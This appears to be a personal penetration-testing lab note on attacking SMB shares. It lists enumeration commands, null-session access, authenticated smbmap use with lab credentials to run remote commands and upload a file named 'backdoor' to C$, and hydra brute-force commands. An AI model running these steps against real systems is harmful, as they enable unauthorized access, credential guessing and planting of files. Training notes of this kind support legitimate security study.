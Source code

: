 Access shares, get user name, brute force user and login again with bruteforced users.
Tips:- enum users and later brute force

## Listing Shares
- nmap --script smb-enum-shares.nse -p445 192.144.106.3
- auxiliary/scanner/smb/smb_enumshares
- enum4linux -S 192.144.106.3
- smbclient -L 192.144.106.3 -N

If username and password is provided, more enum can be done…
![](../../Attachements/Pasted%20image%2020250223174953.png)

## NULL SESSION

rpcclient -U "" -N 192.126.66.3
![](../../Attachements/Pasted%20image%2020250223175027.png)
srvinfo = gives server info in RPC CLIENT
enumdomusers = enum users
lookupnames admin = sid of admin


## ENUM4LINUX
```bash
enum4linux -a 1.1.1.1 = Automated script for enumuration
```

## NMAP
```bash 
- ls -al /usr/share/nmap/scripts/ | grep smb
- nmap -p 445 --script smb-os-discovery 10.10.125.84
- **`nmap -p 445 --script smb* 10.10.125.84` ⇒runs all script**
- nmap -p 445 --script smb-enum-shares 10.10.125.84 ⇒shares
- nmap -p445 --script smb-protocols 10.0.17.200
- nmap -p445 --script smb-security-mode 10.0.17.200
```

 ### Nmap enum using credentials
 ```bash
- nmap -p445 --script smb-security-mode 10.0.17.200
- nmap -p445 --script smb-enum-shares --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-server-stats --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-enum-domains--script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- --script smb-enum-groups
- --script smb-enum-domains
- --script smb-enum-services
- nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
```

## SMBCLIENT
```bash
smbclient -L \\\\192.126.66.3\\ -N =Nullsession, list shares

smbclient -L \\\\[10.10.125.84](notion://10.10.125.84/)\\=list shares

smbclient \\\\[10.10.125.84](notion://10.10.125.84/)\\ADMIN$ = connect to the share with annon

smbclient \\\\[10.10.125.84](notion://10.10.125.84/)\\IPC$ = connect to IPC

smbclient [//192.208.227.3/public](notion://192.208.227.3/public) -N => connected

smbclient [//10.10.125.84/BillySMB](notion://10.10.125.84/BillySMB) ⇒ To access SMB Shares

smbclient [//10.10.125.84/BillySMB](notion://10.10.125.84/BillySMB) ⇒ To access SMB Shares

smbclient -L 192.212.251.3 -U jane ⇒ List Shares, better give passsword

smbclient [//192.212.251.3/jane](notion://192.212.251.3/jane) -U jane ⇒ Access jane share using username jane.

**`TIP:` Sometime Some shares wont be listed but can be viewed using above command.**
```
![](../../Attachements/Pasted%20image%2020250223175631.png)
mget = command to download file
GET and PUT command will work for downloading and uploading files.

# SMBMap
Allows users to enumerate samba share 
Allows file upload/download/delete
```bash
smbmap -u guest -p "" -d . -H 10.10.125.84 =shares also

smbmap -u administrator -p smbserver_771 -d . -H 10.0.28.123 = admin will have more privilege

smbmap -H 10.0.28.123 -u administrator -p smbserver_771 -x 'ipconfig’ => can be used to run commands

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -L = List drives on local host

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$’ = List content of C

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --upload '/root/backdoor' 'C$\backdoor' ⇒ Upload File in C drive

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$’ ⇒ Verify upload

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --download 'C$\flag.txt' ⇒ Download File

- smbmap -H 192.212.251.3 -u admin -p password1 ⇒ ONCE CRED IS KNOWN
```

# Bruteforce
```bash
hydra -l admin -P /usr/share/password.txt 10.10.10.10 smb
hydra -L User.txt -P /usr/share/password.txt 10.10.10.10 smb
```


# Exploiting SMB with PsExec
![](../../Attachements/Pasted%20image%2020250223181056.png)
![](../../Attachements/Pasted%20image%2020250223181136.png)
![](../../Attachements/Pasted%20image%2020250223181214.png)
![](../../Attachements/Pasted%20image%2020250223181247.png)

